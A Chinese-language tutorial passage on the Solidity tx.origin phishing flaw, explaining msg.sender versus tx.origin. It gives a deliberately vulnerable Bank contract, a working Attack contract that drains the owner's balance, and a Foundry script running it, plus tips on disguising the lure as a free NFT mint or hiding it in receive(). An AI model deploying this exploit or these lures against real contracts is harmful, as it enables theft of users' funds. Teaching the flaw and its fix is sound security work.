

# tx.origin钓鱼

<font style="color:rgb(51, 51, 51);">tx.origin 是 Solidity 中的一个全局变量，它返回发送交易的账户地址。</font>

# <font style="color:rgb(51, 51, 51);">EOA账户和合约账户</font>

<font style="color:rgb(51, 51, 51);">以太坊账户分两种，外部账户(EOA)和合约账户(SCA)。</font>

1. <font style="color:rgb(51, 51, 51);">外部账户由一对公私钥进行管理，账户包含着 Ether 的余额。</font>
2. <font style="color:rgb(51, 51, 51);">合约账户除了可以含有 Ether 余额外，还拥有一段特定的代码，预先设定代码逻辑在外部账户或其他合约对其合约地址发送消息或发生交易时被调用和处理。</font>

**<font style="color:rgb(51, 51, 51);">外部账户 EOA</font>**

* <font style="color:rgb(51, 51, 51);">由</font>**<font style="color:rgb(51, 51, 51);">公私钥对</font>**<font style="color:rgb(51, 51, 51);">控制</font>
* <font style="color:rgb(51, 51, 51);">拥有 ether 余额</font>
* <font style="color:rgb(51, 51, 51);">可以发送交易（transactions）</font>
* <font style="color:rgb(51, 51, 51);">不包含相关执行代码</font>

**<font style="color:rgb(51, 51, 51);">合约账户 SCA</font>**

* <font style="color:rgb(51, 51, 51);">拥有 ether 余额</font>
* <font style="color:rgb(51, 51, 51);">含有执行代码</font>
* <font style="color:rgb(51, 51, 51);">代码仅在</font>**<font style="color:rgb(51, 51, 51);">该合约地址</font>**<font style="color:rgb(51, 51, 51);">发生交易或者收到其他合约发送的信息时才会被执行</font>
* <font style="color:rgb(51, 51, 51);">拥有自己的独立存储状态，且可以调用其他合约</font>

## <font style="color:rgb(51, 51, 51);">msg.sender和tx.origin的区别</font>

<font style="color:rgb(51, 51, 51);">tx.origin：表示最初的调用者，通常取得的是EOA的地址。</font>

<font style="color:rgb(51, 51, 51);">msg.sender：表示最近的调用者，通常取得是的上级调用者的地址，可以是EOA地址，也可以是合约地址。</font>

<font style="color:rgb(51, 51, 51);">如果EOA用户A调用合约B，合约B调用合约C。那么</font>

* <font style="color:rgb(51, 51, 51);">在C合约中，msg.sender就是B合约的地址，tx.origin为A地址。</font>
* <font style="color:rgb(51, 51, 51);">在B合约中，msg.sender是A地址，tx.origin也为A地址。</font>

<font style="color:rgb(51, 51, 51);">通过判断</font><code><font style="color:rgb(255, 80, 44);background-color:rgb(255, 245, 245);">tx.origin==msg.sender</font></code><font style="color:rgb(51, 51, 51);">来确定调用者是合约还是EOA账户。</font>

<font style="color:rgb(102, 102, 102);background-color:rgb(248, 248, 248);">😀</font><font style="color:rgb(102, 102, 102);background-color:rgb(248, 248, 248);"> </font>**<font style="color:rgb(102, 102, 102);background-color:rgb(248, 248, 248);">思考</font>**<font style="color:rgb(102, 102, 102);background-color:rgb(248, 248, 248);"> </font><font style="color:rgb(102, 102, 102);background-color:rgb(248, 248, 248);">：可不可以通过判断一个账户的是否包含执行代码来区分这个账户是EOA还是SCA?</font>

<font style="color:rgb(102, 102, 102);background-color:rgb(248, 248, 248);">不可以。因为一个合约地址的 </font><code><font style="color:rgb(255, 80, 44);background-color:rgb(255, 245, 245);">CODESIZE</font></code><font style="color:rgb(102, 102, 102);background-color:rgb(248, 248, 248);">是大于零的，但当地址的 </font><code><font style="color:rgb(255, 80, 44);background-color:rgb(255, 245, 245);">CODESIZE</font></code><font style="color:rgb(102, 102, 102);background-color:rgb(248, 248, 248);">等于零时，并不能保证其为非合约，因为合约在构造阶段 </font><code><font style="color:rgb(255, 80, 44);background-color:rgb(255, 245, 245);">CODESIZE</font></code><font style="color:rgb(102, 102, 102);background-color:rgb(248, 248, 248);">也为零。</font>

# 钓鱼漏洞

```solidity
contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

<font style="color:rgb(51, 51, 51);">黑客(假设Eve为黑客)可以这样进行漏洞利用。</font>

1. <font style="color:rgb(51, 51, 51);">黑客编写一个Attack的合约，并进行部署。</font>
2. <font style="color:rgb(51, 51, 51);">黑客通过钓鱼等手段诱导Wallet合约的部署者调用Attack合约的attack方法。</font>
3. <font style="color:rgb(51, 51, 51);">黑客就窃取到了Wallet合约的ETH。</font>

```solidity
contract Attack {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}
```

<font style="color:rgb(51, 51, 51);">在这个过程中，Alice调用了Attack合约的attack方法，attack方法调用了wallet合约的transfer方法，在transfer方法中tx.origin是alice(在transfer方法中tx.sender是attack合约)，因为alice就是Wallet合约的owner，因此通过检测，将ETH转给了黑客Eve。</font>

## <font style="color:rgb(51, 51, 51);">Alice会傻到去调用Eve的合约吗？</font>

<font style="color:rgb(51, 51, 51);">这依靠黑客Eve的</font><font style="color:rgb(51, 51, 51);background-color:#FBDFEF;">钓鱼</font><font style="color:rgb(51, 51, 51);">的手法，如果像上面的attack方法Alice一般不会上当，但如果方法名假装成免费mint NFT的函数freemint，且代码里调用了其它的大量的正常代码，并且调用了其他的合约C，在C合约里调用wallet.transfer，可能就很难识别出该方法有问题了。而且Alice在正常生活中使用DAPP时(如使用uniswap,stepn等时)，后端采用的也是调用合约方法的形式，相比于直接发送虚假链接发送钓鱼邮件类的邮件，Alice对此类钓鱼的警惕性会更低些。</font>

<font style="color:rgb(51, 51, 51);">所以，黑客为了钓鱼更加成功，可以从下面方面进行增强</font>

1. <font style="color:rgb(51, 51, 51);background-color:#FBDFEF;">多个合约连接</font><font style="color:rgb(51, 51, 51);">。合约A调用合约B，合约B调用合约C，合约C调用合约D，…………，最后合约中调用wallet.transfer。</font>
2. <font style="color:rgb(51, 51, 51);">黑客的合约可以利用</font><font style="color:rgb(51, 51, 51);background-color:#FBDFEF;">社会工程学</font><font style="color:rgb(51, 51, 51);">伪装，利用贪便宜的心理，打低价或者免费mint的旗号，或者高息诱惑的方式等。</font>
3. <font style="color:rgb(51, 51, 51);">黑客可以将漏洞利用隐藏在</font><font style="color:rgb(51, 51, 51);background-color:#FBDFEF;">receive函数</font><font style="color:rgb(51, 51, 51);">中，通过诱导用户向指定的合约转账内触发漏洞利用。如假装与用户进行换币，给客户很大的折扣诱导等。</font>

# <font style="color:rgb(51, 51, 51);">安全建议</font>

把tx.origin换成msg.sender，确保调用者就是owner

# 实现

## 银行合约

* <font style="color:rgb(31, 35, 40);">构造函数：在创建合约时赋予</font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">owner</font></code><font style="color:rgb(31, 35, 40);">变量属性。</font>
* <code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">transfer()</font></code><font style="color:rgb(31, 35, 40);">：该函数会获得两个参数</font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">_to</font></code><font style="color:rgb(31, 35, 40);">并且</font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">_amount</font></code><font style="color:rgb(31, 35, 40);">，先检查</font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">tx.origin == owner</font></code><font style="color:rgb(31, 35, 40);">，无误后再给</font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">_to</font></code><font style="color:rgb(31, 35, 40);">转账</font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">_amount</font></code><font style="color:rgb(31, 35, 40);">数量的ETH。</font>**<font style="color:rgb(31, 35, 40);">注意：该函数存在被钓鱼攻击的风险！</font>**

```solidity
contract Bank {
    address public owner;//记录合约的拥有者

    //在创建合约时给 owner 变量赋值
    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        //检查消息来源 ！！！ 可能owner会被诱导调用该函数，有钓鱼风险！
        require(tx.origin == owner, "Not owner");
        //转账ETH
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

## 攻击合约

<font style="color:rgb(31, 35, 40);">它的攻击逻辑非常简单，就是构造出一个</font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">attack()</font></code><font style="color:rgb(31, 35, 40);">函数进行钓鱼，将银行合约拥有者的余额转账给黑客。它有</font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">2</font></code><font style="color:rgb(31, 35, 40);">一个状态变量</font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">hacker</font></code><font style="color:rgb(31, 35, 40);">，</font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">bank</font></code><font style="color:rgb(31, 35, 40);">分别用于记录黑客地址和要攻击的银行合约地址。</font>

<font style="color:rgb(31, 35, 40);">它包含</font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">2</font></code><font style="color:rgb(31, 35, 40);">一个函数：</font>

* <font style="color:rgb(31, 35, 40);">构造函数：初始化</font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">bank</font></code><font style="color:rgb(31, 35, 40);">合约地址。</font>
* <code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">attack()</font></code><font style="color:rgb(31, 35, 40);">：攻击函数，该函数需要银行合约的</font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">owner</font></code><font style="color:rgb(31, 35, 40);">调用地址，</font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">owner</font></code><font style="color:rgb(31, 35, 40);">调用攻击合约，攻击合约再调用银行合约的</font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">transfer()</font></code><font style="color:rgb(31, 35, 40);">函数，确认</font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">tx.origin == owner</font></code><font style="color:rgb(31, 35, 40);">后，将银行合约内的余额全部转移到黑客地址中。</font>

```solidity
contract Attack {
    // 受益者地址
    address payable public hacker;
    // Bank合约地址
    Bank bank;

    constructor(Bank _bank) {
        //强制将address类型的_bank转换为Bank类型
        bank = Bank(_bank);
        //将受益者地址赋值为部署者地址
        hacker = payable(msg.sender);
    }

    function attack() public {
        //诱导bank合约的owner调用，于是bank合约内的余额就全部转移到黑客地址中
        bank.transfer(hacker, address(bank).balance);
    }
}
```

## 脚本

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script, console} from "forge-std/Script.sol";
import {Attack} from "../src/Attack.sol";
import {Bank} from "../src/tx.origin.sol";

contract Attacksc is Script {
    function run() external {
        vm.startBroadcast();
        Attack attack = new Attack(
            Bank(0x663F3ad617193148711d28f5334eE4Ed07016602)
        );
        attack.attack();
        vm.stopBroadcast();
    }
}

```

部署，运行脚本，验证攻击合约有没有钱



o如k


> 更新: 2025-07-29 15:39:49  
> 原文: <https://www.yuque.com/xiaoyuhushenfu/yzin4n/fk32yzqpwpupzygz>